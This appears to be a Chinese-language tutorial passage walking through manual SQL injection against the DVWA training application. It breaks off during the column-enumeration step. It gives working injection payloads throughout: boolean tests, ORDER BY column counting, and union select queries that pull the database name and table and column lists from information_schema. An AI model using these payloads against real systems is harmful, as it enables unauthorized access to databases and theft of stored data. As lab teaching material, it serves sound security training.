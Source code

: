 
1.判断是否存在注入，注入是字符型还是数字型
输入1，查询成功：

![image]({path}/39.png)



输入1’and ‘1’ =’2，查询失败，返回结果为空：

![image]({path}/40.png)

输入1’or ‘1234 ’=’1234，查询成功：

![image]({path}/41.png)

返回了多个结果，说明存在字符型注入。

2.猜解SQL查询语句中的字段数
输入1′ or 1=1 order by 1 #，查询成功：

![image]({path}/42.png)

输入1′ or 1=1 order by 2 #，查询成功：

![image]({path}/43.png)

输入1′ or 1=1 order by 3 #，查询失败：

![image]({path}/44.png)

说明执行的SQL查询语句中只有两个字段，即这里的First name、Surname。

（这里也可以通过输入union select 1,2,3…来猜解字段数）

3.确定显示的字段顺序
输入1′ union select 1,2 #，查询成功：

![image]({path}/45.png)

说明执行的SQL语句为select First name,Surname from 表 where ID=’id’…

4.获取当前数据库
输入1′ union select 1,database() #，查询成功：

![image]({path}/46.png)

说明当前的数据库为dvwa。

5.获取数据库中的表
输入1′ union select 1,group_concat(table_name) from information_schema.tables where table_schema=database() #，查询成功：

![image]({path}/47.png)

说明数据库dvwa中一共有两个表，guestbook与users。

6.获取表中的字段名
输入1′ union select 1,group_concat(column_name) from information_schema.columns where table_name=’users’ #，查询成功：
